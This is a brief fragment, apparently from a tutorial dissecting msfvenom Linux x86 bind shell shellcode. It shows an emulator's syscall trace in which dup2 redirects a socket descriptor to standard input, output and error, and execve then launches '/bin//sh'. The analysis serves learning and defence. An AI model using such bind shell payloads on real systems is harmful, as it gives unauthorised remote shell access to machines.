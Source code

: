 ```sh
) =  2;
int dup2 (
     int oldfd = 19;
     int newfd = 1;
) =  1;
int dup2 (
     int oldfd = 19;
     int newfd = 0;
) =  0;
int execve (
     const char * dateiname = 0x00416fb2 => 
           = "/bin//sh";
     const char * argv[] = [
           = 0x00416faa => 
               = 0x00416fb2 => 
                   = "/bin//sh";
           = 0x00000000 => 
             none;
     ];
     const char * envp[] = 0x00000000 => 
         none;
) =  0;
```

Analyze code line by line using the comments section.

![](/assets/images/Disecting_Msfvenom_Shellcode_Linux_x86/BindShell.png)
